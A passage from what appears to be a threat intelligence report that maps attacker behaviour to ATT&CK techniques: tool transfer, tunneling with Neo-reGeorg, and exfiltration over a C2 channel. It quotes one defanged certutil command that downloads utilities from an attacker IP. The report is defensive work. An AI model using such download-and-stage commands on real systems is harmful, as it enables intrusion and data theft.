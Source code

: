 


			 Ingress Tool Transfer
		



The attackers downloaded additional utilities from the C2 server using the certutil utility. Examples: certutil -urlcache -f -split http://42.99.116[.]14/.
		





			 T1572
		



			 Protocol Tunneling
		



The attackers used network traffic tunneling tools. Examples: Neo-reGeorg
		





Exfiltration






			 T1041
		



			 Exfiltration Over C2 Channel
		



The attackers uploaded the stolen files to the C2 servers
		





IOCs
File indicators







File
		


			 SHA-256
		


			 MD5
		


			 SHA-1
